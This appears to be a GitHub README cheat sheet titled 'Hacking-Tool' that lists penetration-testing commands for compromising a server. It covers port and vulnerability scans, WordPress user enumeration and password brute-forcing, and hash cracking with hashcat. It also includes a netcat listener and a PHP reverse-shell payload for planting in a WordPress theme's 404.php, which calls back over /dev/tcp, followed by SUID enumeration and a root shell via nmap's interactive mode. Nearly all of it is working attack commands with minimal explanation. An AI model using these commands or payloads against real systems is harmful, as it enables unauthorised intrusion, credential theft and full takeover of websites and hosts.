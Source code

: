 ﻿# Hacking-Tool
https://www.whois.com/whois
https://wigle.net/
https://gchq.github.io/CyberChef/

exiftool <bild.png>

## Scan
### Nmap
    scans ports on a server
    nmap -A -p 22,80,443 <ip>
    nmap --script vuln -p 22,80,443 <ip>
### nikto
    scans /xyz
    nikto -h http://<ip>/ -nossl
### Directory scan
    dirb http://<ip>
### Wordpress scan
    scans Wordpress sites
    wpscan --url http://<ip>/ -et -ep -eu 
    wpscan --url http://<ip>/ --wp-content-dir -et -ep -eu
    Bruteforcing wordpress:
    wpscan --url http://<ip>/ --wp-content-dir -eu -P <file>.dic

## asdf
  ### hashcat
    Cracks hash
    hashcat -m 0 <hash> ~/Desktop/rockyou.txt //
    hashcat -m 0 <hash> ~/Desktop/rockyou.txt --show

## reverse shell
### listener
    nc -lvp <port>
### php // wordpress
    Go to appearance -> editor -> Put the code in 404.php
    <?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'");
    ?>
### must be run from a terminal
	python -c 'import pty;pty.spawn("/bin/bash");'


## root
### loking for files you can execute
	find / -perm -u=s -type f 2>/dev/null
### get root using nmap
	nmap --interactive
	!sh
	id
	
## Files
### download
    wget <url>
### Sort file and remove duplication
    sort <file> | uniq > sort_<file>
    wc -l sort_<file>

